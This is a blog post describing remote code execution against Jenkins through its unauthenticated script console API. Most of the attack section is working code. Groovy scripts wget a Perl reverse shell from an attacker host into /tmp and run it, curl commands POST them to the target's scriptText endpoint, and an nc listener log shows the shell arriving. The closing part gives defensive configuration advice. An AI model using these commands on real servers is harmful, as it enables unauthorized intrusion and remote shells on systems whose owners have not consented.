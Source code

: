 ```yaml
---
layout: blog_item
title:  "Jenkins RCE via Unauthenticated API"
date:   2024-04-18 10:08:10
author: Dhruv Ambaliya
description: 'Jenkins RCE via Unauthenticated API, an attacker can execute shell commands via curl requests against the Jenkins API script console'
categories: [Exploit]
tags:
- Jenkins
- Exploit
- RCE
---
```


* list element with functor item                                                
 {:toc}

## Description:

[Jenkins](https://jenkins-ci.org/) (continuous intergration server) default install allows for unauthenticated access to the API on the Jenkins Master Server (default behavour). Allowing unauthenticated access to the groovy script console, allowing an attacker to execute shell commands and / or connect back with a reverse shell.

<div class="note warning">
  <h5>DISCLAIMER</h5>
  <p>Disclaimer, I didn't discover this exploit, it has been discovered before... This vulnerability has been disclosed before to the Jenkins CI developers, who do <b>not consider it a vulnerability</b>.</p>
</div>


![Jenkins RCE API Exploit](https://i.imgur.com/lTas7UD.gif)

## Tested Versions

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Software</th>
      <th>Version</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.626</p>
      </td>
       </tr>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.638</p>
      </td>
      </tr>

      </tbody>
</table>
</div>

## Tested Operating Systems

An effort to test all affected OS's, showing the severity of the exploit (e.g. jenkins shell) for the default OS packaged version.

<div>
<table>
  <thead>
    <tr>
      <th>Operating System</th>
      <th>Default Package Expoit</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>CentOS 6 - Jenkins RPM via Jenkins YUM Repo</code></p>
      </td>
      <td>
            <p>shell as user jenkins</p>
      </td>
      </tr>
      </tbody>
</table>
</div>

## Instructions

This is really basic, I made a few small groovy scripts to execute the shell commands I wanted via Jenkins API (I recall having some issues runing more than one command at a time via groovy), I then executed them using Curl.

### groovy script wget shell

Script to wget perl reverse shell to target and copy it to /tmp/shell.

{% highlight java %}
   def command = "wget http://192.168.145.128/perl-reverse-shell.pl -O /tmp/shell"
   def proc = command.execute()
   proc.waitFor()

   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
{% endhighlight %}

<div class="note tip">
  <h5>Jenkins requires /tmp to have exec perms</h5>
  <p>By default Jenkins requires <code>/tmp</code> to have the execute mount option set, so you should be safe to land shells there on Jenkins servers.</p>
</div>


### groovy script execute shell command

{% highlight java %}
    def command = "perl /tmp/shell"
    def proc = command.execute()
    proc.waitFor()              

    println "Process exit code: ${proc.exitValue()}"
    println "Std Err: ${proc.err.text}"
    println "Std Out: ${proc.in.text}"
{% endhighlight %}

### Execute the Groovy Scripts via scriptText Jenkins API

{% highlight bash %}
curl -d "script=$(<./wget.groovy)" -X POST http://192.168.30.130:8080/scriptText
curl --data-urlencode  "script=$(<./execute.groovy)" -X POST http://192.168.30.130:8080/scriptText
{% endhighlight %}

### Get Shell

{% highlight bash %}
    [root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami
     jenkins
     apache-4.1$ id
     id
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
{% endhighlight %}

<div class="note info">
  <h5>Jenkins Does Not Consider this a Vulnerability</h5>
  <p>Dispite the fact the web application is insecure by default (the default
  install leaves the API and webapp exposed without authentication), Jenkins do
  not consider this a vulnerability. Your best option is to configure
  authentication by following the <a href="https://wiki.jenkins-ci.org/display/JENKINS/Standard+Security+Setup">Securing Jenkinsi Guide</a></p>
</div>

## More info about Jenkins

Jenkins is a tool consisting of a master and a slave, the master server
schedules and runs jobs for the jenkins slaves to execute. The default
installation configures the master as a slave server, allowing anyone with access to the Jenkins master
to execute arbitrary code on the master (via the slave).

A more secure solution would be isolating the role of the master server.
Currently if a Jenkins master server is compromised, it's likely an attacker
will also be able to execute jobs / run shell scripts on the Jenkins slaves.

An additional ACL option within Matrix-based security to disable API, and
another for script
console / execution on the Jenkins Master would be a good idea. Currently the
only options is to disable all script access for the user/group, which appears to include the
slaves.

Be mindful of the fact that, by giving access to the slaves via the Jenkins Master,
you're essentially giving the user shell level access to the slave (or at least
the ability to execute shell commands on the slave machine).

## More Resources

More links about this vuln and similar Jenkins vulns below:

* [http://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console](http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/)

